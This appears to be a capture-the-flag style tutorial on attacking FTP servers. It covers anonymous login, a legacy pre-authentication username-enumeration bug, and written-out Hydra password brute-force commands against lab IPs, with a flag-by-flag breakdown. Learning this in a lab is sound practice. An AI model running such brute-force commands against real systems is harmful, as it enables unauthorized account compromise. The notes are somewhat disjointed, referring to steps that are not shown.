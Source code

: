 We're going to be exploiting an anonymous FTP login, to see what files we can access- and if they contain any information that might allow us to pop a shell on the system. This is a common pathway in CTF challenges, and mimics a real-life careless implementation of FTP servers.

**Resources**

As we're going to be logging in to an FTP server, we will need to make sure an FTP client is installed on the system. There should be one installed by default on most Linux operating systems, such as Kali or Parrot OS. You can test if there is one by typing "ftp" into the console. If you're brought to a prompt that says: "ftp>", then you have a working FTP client on your system. If not, it's a simple matter of using "sudo apt install ftp" to install one.  

**Alternative Enumeration Methods**

It's worth noting  that some vulnerable versions of in.ftpd and some other FTP server variants return different responses to the "cwd" command for home directories which exist and those that don’t. This can be exploited because you can issue cwd commands before authentication, and if there's a home directory- there is more than likely a user account to go with it. While this bug is found mainly within legacy systems, it's worth knowing about, as a way to exploit FTP.  

This vulnerability is documented at: [https://www.exploit-db.com/exploits/20745](https://www.exploit-db.com/exploits/20745) 

  

Now we understand our toolbox, let's do this.

==Anonymous Login==
Great, now we know what type of FTP server we're dealing with we can check to see if we are able to login anonymously to the FTP server. We can do this using by typing "_ftp [IP]_" into the console, and entering "anonymous", and no password when prompted.

#### Exploiting FTP

```
aryan@aryan-Latitude-E7270:~/Downloads$ hydra ftp://10.10.231.247 -I -V -l mike -P /usr/share/wordlist/rockyou.txt 
```

![hydra](./images/Pasted image 20250111185106.png])
Hydra Tool kit
```
**"hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp"**

Let's break it down:

SECTION             FUNCTION  
  
hydra                   Runs the hydra tool  
  
-t 4                    Number of parallel connections per target  
  
-l [user]               Points to the user who's account you're trying to compromise  
  
-P [path to dictionary] Points to the file containing the list of possible passwords  
  
-vV                     Sets verbose mode to very verbose, shows the login+pass combination for each attempt  
  
[machine IP]            The IP address of the target machine  
  
ftp / protocol          Sets the protocol
```


